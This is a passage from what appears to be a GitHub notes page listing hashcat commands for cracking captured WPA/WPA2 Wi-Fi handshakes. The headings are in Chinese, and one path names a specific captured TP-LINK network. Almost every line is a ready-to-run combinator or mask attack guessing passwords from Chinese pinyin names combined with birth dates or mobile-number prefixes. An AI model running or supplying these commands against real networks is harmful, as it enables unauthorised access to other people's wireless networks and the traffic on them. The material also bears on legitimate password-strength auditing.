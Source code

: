     * ~~`hashcat-utils-1.9\bin\combinator.exe shengmu.txt months_days > shengmu_months_days.txt | hashcat64.exe --force -m 2500 J:\cap\TP-LINK_54AA-01\TP-LINK_54AA-01.hccapx -a 1 shengmu_months_days.txt shengmu_months_days.txt`~~ (If prompted with errors, try this command once again. But it seems that it cannot cover full passwords through this way.)
* ~~名字全拼＋年月日~~
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 lname_cn.txt -1 98765 -2 01 -3 0123 ?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 lname_cn.txt -1 98765 -2 01 -3 0123 19?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 lname_cn.txt -1 01 -2 01 -3 0123 ?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 lname_cn.txt -1 01 -2 01 -3 0123 20?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 cname_cn.txt -1 98765 -2 01 -3 0123 ?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 cname_cn.txt -1 98765 -2 01 -3 0123 19?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 cname_cn.txt -1 01 -2 01 -3 0123 ?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 cname_cn.txt -1 01 -2 01 -3 0123 20?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 name_cn.txt -1 98765 -2 01 -3 0123 ?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 name_cn.txt -1 98765 -2 01 -3 0123 19?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 name_cn.txt -1 01 -2 01 -3 0123 ?1?d?2?d?3?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 name_cn.txt -1 01 -2 01 -3 0123 20?1?d?2?d?3?d`
* 名字全拼＋年月日
    `./hashcat64.bin -m 2500 hash.hccapx -a 1 name_cn.txt years_months_days.txt`
* ~~名字全拼＋月日~~
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 lname_cn.txt -1 01 -2 0123 ?1?d?2?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 cname_cn.txt -1 01 -2 0123 ?1?d?2?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 name_cn.txt -1 01 -2 0123 ?1?d?2?d`
* 名字全拼＋月日
    `./hashcat64.bin -m 2500 hash.hccapx -w 3 -a 1 name_cn.txt months_days.txt`
* ~~名字全拼＋手机号 (vice versa)~~
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 130?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 131?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 132?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 133?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 134?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 135?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 136?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 137?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 138?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 139?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 145?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 146?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 147?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 148?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 149?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 150?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 151?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 152?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 153?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 155?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 156?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 157?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 158?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 159?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 166?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 171?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 172?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 173?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 174?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 175?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 176?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 177?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 178?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 180?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 181?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 182?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 183?d?d?d?d?d?d?d?d`
    `hashcat64.exe --force -m 2500 hash.hccapx -a 6 acname_cn.txt 184?d?d?d?d?d?d?d?d`